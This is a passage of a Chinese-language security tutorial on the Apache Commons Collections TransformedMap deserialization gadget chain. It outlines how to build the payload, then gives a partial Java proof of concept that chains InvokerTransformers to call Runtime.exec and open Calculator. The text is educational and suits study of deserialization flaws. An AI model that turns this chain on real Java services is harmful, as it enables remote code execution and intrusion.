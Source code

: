 <img src="./images/9.png" alt="">

> 根据上面的分析过程，构造`Payload`的思路基本就没啥问题了

```
[1] 构造 AnnotationInvocationHandler 实例，传入一个注解类和一个 Map，这个 Map 的 key 中要具有注解类中存在的属性并且值不是对应的实例和 ExceptionProxy 对象
[2] 这个 Map 用 TransformedMap 进行封装，并且调用自定义的 ChainedTransformer 进行装饰
[3] ChainedTransformer 中写入多个 Transformer 实现类来进行链式调用从而达到恶意操作
```

## POC
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsTransformedMap {

    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
```